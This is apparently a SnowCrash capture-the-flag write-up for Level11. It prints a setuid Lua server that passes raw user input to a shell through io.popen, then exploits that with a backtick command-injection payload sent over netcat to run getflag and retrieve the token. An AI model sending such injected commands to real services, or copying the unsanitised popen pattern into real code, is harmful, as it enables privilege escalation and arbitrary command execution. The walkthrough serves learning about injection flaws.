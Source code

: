# Level11

## Hint

Perhaps you could exploit the `hash` function.

## Answer

Let's check our current directory:
```
level11@SnowCrash:~$ ll
total 16
dr-xr-x---+ 1 level11 level11  120 Mar  5  2016 ./
d--x--x--x  1 root    users    340 Aug 30  2015 ../
-r-x------  1 level11 level11  220 Apr  3  2012 .bash_logout*
-r-x------  1 level11 level11 3518 Aug 30  2015 .bashrc*
-rwsr-sr-x  1 flag11  level11  668 Mar  5  2016 level11.lua*
-r-x------  1 level11 level11  675 Apr  3  2012 .profile*
```

Let's first read the contents of the `level11.lua` file:
```lua
level11@SnowCrash:~$ cat level11.lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

Alright seems like there is will be a server on port 5151, furthermore it will ask for a password when we try to connect, let's run it first:
```
level11@SnowCrash:~$ ./level11.lua
lua: ./level11.lua:3: address already in use
stack traceback:
        [C]: in function 'assert'
        ./level11.lua:3: in main chunk
        [C]: ?
```

Seems like the server is already running, let's connect to it using `netcat`:
```
level11@SnowCrash:~$ nc localhost 5151
Password: test
Erf nope..
```

From the code we can see that it will check if the password is equal to the hash: `f05d1d066fb246efe0c6f7d095f909a7a0cf34a0`, however getting the password correct just prints a different string so there is not point in reversing the hash. We notice that the `hash` function is executing a bash command and that our input is being sent to it as a command line argument. Therefore we can exploit it:
```
level11@SnowCrash:~$ nc localhost 5151
Password: `getflag > /tmp/flag`
Erf nope..
level11@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

Simple as that !
